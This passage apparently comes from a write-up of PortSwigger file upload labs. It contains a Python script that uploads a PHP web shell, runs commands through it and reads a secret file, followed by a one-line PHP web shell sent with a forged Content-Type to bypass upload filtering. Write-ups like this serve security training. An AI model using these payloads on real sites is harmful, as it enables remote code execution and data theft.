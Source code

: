 ```python
r = s.post(url + '/my-account/avatar', files=file, data=form_data)
if 'avatars/evil.php' not in r.text:
	print("[-] Upload failed")
	sys.exit(1)
print("[+] Upload worked")


r = s.get(url + '/files/avatars/evil.php?cmd=id')
if '12002(carlos)' not in r.text:
	print("[-] RCE failed")
	sys.exit(1)
print("[+] RCE worked")

params = {
	'cmd':'cat /home/carlos/secret'
}
r = s.get(url + '/files/avatars/evil.php', params=params)
print(r.text)
```

## Lab 2: Content-Type Restriction Bypass

Just reading the lab title told me what to do. In the above script, replace the `file` parameter with this:

```python
file = {
	'avatar':('evil.php', '<?php system($_REQUEST["cmd"]); ?>', "image/jpeg")
}
```

Previously, it was set to `application/x-php`. When set to that, the website blocks it:

![](../../.gitbook/assets/portswigger-fileupload-writeup-image-3.png)

By changing the `Content-Type` header (which is the 3rd parameter in `file`), I can bypass this.

## Lab 3: Path Traversal + Web shell

This lab does not check the `Content-Type` header, but execution of the webshell is not as straightforward.

![](../../.gitbook/assets/portswigger-fileupload-writeup-image-4.png)
